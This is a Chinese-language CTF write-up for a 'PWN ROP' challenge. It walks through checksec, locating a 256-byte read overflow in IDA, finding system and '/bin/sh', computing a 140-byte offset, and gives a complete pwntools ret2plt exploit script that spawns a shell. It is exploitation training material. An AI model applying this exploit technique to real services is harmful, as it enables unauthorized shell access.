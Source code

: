 ### PWN ROP

checksec一下，32-bit，Stack没有canary
![image.png](https://i.loli.net/2020/04/12/CVw5qsun2IfZOUA.png)

放IDA，代码很简单，看到有read，从标准输入读0x100u(DEC : 256)个字节到buf，存在溢出漏洞
![image.png](https://i.loli.net/2020/04/12/XeUdrxwNpBtMbTm.png)
![image.png](https://i.loli.net/2020/04/12/BTDHMLapnowC4XO.png)

在data找到“/bin/sh”
![image.png](https://i.loli.net/2020/04/12/vzEf6cWhsL2uamC.png)
也有system
![image.png](https://i.loli.net/2020/04/12/lDL5FzEh3ycWYV4.png)

**现在只要制造system("/bin/sh")这个伪栈帧就可以拿到shell了**

### 计算偏移量
![image.png](https://i.loli.net/2020/04/12/4UrDxSac61MREJZ.png)
![image.png](https://i.loli.net/2020/04/12/idyB6sbw5j9qv1t.png)
![image.png](https://i.loli.net/2020/04/12/XGyn6fM17StcxaJ.png)
得到偏移量136+4=140，也可以直接从汇编代码看buf长度

找到"/bin/sh"与system的地址，因为system的地址不是load字段的，所以不能用string找的，而是要去.plt找
![image.png](https://i.loli.net/2020/04/12/VRfJzQiUKIaXc3p.png)
也可以
``` python
    elf = ELF('./ROP')
    sh_addr = elf.search('/bin/sh').next()
    sys_addr = elf.symbols['system']
```
### 编写Exp
``` python
    from pwn import *

    def rop():
        io = process('./ROP')
        #io = remote('111.198.29.45',51308)
        sys_addr=0x8048320
        sh_addr=0x804a024
        #64位的payload的写法是先把参数复制到寄存器里的指令，然后再调用system
        #32位先向栈中压入函数地址再随意压入4个字节再压入函数的参数的地址
        payload = 'a' * 140 + p32(sys_addr) + p32(0) + p32(sh_addr)
        io.sendlineafter('Input:\n',payload)
        io.interactive()

    if __name__ == '__main__':
        rop()
```

### 拿shell
![image.png](https://i.loli.net/2020/04/12/WyHC31vbgE59foq.png)